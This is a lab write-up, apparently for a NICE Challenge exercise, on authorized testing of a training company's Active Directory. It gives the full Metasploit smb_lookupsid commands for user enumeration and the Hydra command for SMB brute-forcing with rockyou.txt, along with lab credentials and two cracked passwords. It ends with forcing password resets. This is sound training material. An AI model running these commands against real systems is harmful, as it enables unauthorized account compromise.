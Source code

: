 ## Goals

"We have reason to believe that some of our employees have weaker than should be acceptable passwords, so we want you to conduct authorized penetration testing against various company assets to determine which employees need to change their passwords."

**Use Kali Linux to attempt an attack on Pretty Safe Electronic's Active Directory house on 171.16.30.55**<br><br>
--We will be using Metasploit's Auxiliary smblookupsid to exploit the directory to enumerate authorized users. <br>
--We will be using the output from Metasploit output in Hydra to target the specific users on the directory. <br>
--We will use the common "rockyou.txt" wordlist to test against the users for weak passwords. <br><br><br>
**Force password reset on identified users with weak passwords.**<br><br>
--We will login to the domain controller and force password resets for users identified with weak passwords.<br> 

## Tools Used

* Kali Linux 
* Metasploit Console
* SMB
* smb_lookupsid Auxiliary in Metasploit
* Hydra command line tool
* Active Directory (Users and Computers)

## Network Map and targets used<br>
![](https://portal.nice-challenge.com/static/img/PD-map.jpg)<br><br>
Our target is the AD-Server located at 172.16.30.55<br>
We will utilize the Security-Desk workstation located at 172.16.20.55<br><br>

## Actions Taken

* Spin up the Security-Desk workstation and login to player one. 
* Open Terminal and run "sudo msfconsole"
* Select the smb_lookupsid too by running "use auxiliary/scanner/smb_lookupsid" 
* Set target to Active Directory service by running "set RHOSTS 172.16.30.55"
* Set SMB user by running "set SMBUser playerone"
* Set SMB password by running "set SMBPass password123"
* Start exploit by running "exploit"
* Once task is complete, copy output and paste into MousePad.
* Remove all data except found users:<br><br>
rcortes <br>
jsmith <br>
manderson <br>
skeefe <br>
nkeefe <br>
asteele <br>
jraffin <br>
jcortes <br>
tclark <br><br>
* Save document in home directory. (/home/playerone/(KNOWNUSERS).txt)
* Create another empty document in the home directory for Hydra's output. (/home/playerone/(OUTPUT).txt
* Quit metasploit console.
* In Terminal, run "hydra -L /home/playerone/(KNOWNUSERS).txt -P /usr/share/wordlists/rockyou.txt -o /home/playerone/(OUTPUT).txt -v 172.16.30.55 smb"
*Hydra discovered two users who had weak passwords:<br><br>
nkeefe:987654321<br>
jcortes:iloveme<br><br>
* Shut down Security-Desk
* Spin up Domain-Controller
* Select Start Menu > Administrative Tools
* Open Active Directory Users and Computers
* Select prettysafeelectronics.io > Users
* We will adjust the password policy for Jan Cortes (jcortes) & Naomi O'Keefe (nkeefe)
* Select the respective user from the list and open properties from secondary menu. 
* Select the account tab. 
* Uncheck [Password never expires]
* Check [User must change password at next logon]
* Apply changes
* Repeat for second user. 
* /Challenge Complete//




